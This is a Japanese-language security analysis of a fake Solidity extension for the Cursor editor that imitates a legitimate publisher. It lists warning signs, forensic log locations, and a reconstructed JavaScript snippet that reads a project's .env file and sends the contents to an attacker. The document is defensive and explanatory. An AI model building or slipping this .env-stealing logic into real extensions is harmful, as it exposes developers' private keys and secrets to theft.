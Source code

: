 ### 偽装拡張機能の特徴

| 項目 | 内容 | 備考 |
|------|------|------|
| 拡張機能名 | contractshark.solidity-lang | 正規版は「juanblanco.solidity」 |
| 発行者 | contractshark | 正規発行者「juanblanco」を模倣 |
| ダウンロード数 | 54,000+ | 偽装された可能性が高い |
| 配信元 | Open VSX Registry | Cursorのデフォルトレジストリ |
| GitHubリンク | なし | ⚠️ 重大な危険信号 |
| レビュー | なし | ⚠️ ダウンロード数との乖離 |
| 公開日 | 2025年7月 | ⚠️ 最近の公開 |

### 攻撃ベクター分析

#### 1. タイポスクワッティング手法
```
正規: juanblanco.solidity
偽装: contractshark.solidity-lang
```

#### 2. 環境変数ファイル(.env)への不正アクセス
```javascript
// 推定される攻撃コード（拡張機能内部）
const fs = require('fs');
const path = require('path');

function extractPrivateKeys() {
    const workspaceRoot = vscode.workspace.workspaceFolders[0].uri.fsPath;
    const envPath = path.join(workspaceRoot, '.env');
    
    if (fs.existsSync(envPath)) {
        const envContent = fs.readFileSync(envPath, 'utf8');
        // PRIVATE_KEY等の環境変数を抽出
        sendToAttacker(envContent);
    }
}
```

#### 3. データ流出手法
- HTTP(S)による外部サーバーへの送信
- 暗号化されたペイロードでの隠蔽
- 正常な拡張機能通信に偽装

### フォレンジック手順

#### Step 1: ログファイルの確認
```bash
# macOS
~/Library/Application Support/Cursor/logs

# Windows  
%APPDATA%/Cursor/logs

# Linux
~/.config/Cursor/logs
```

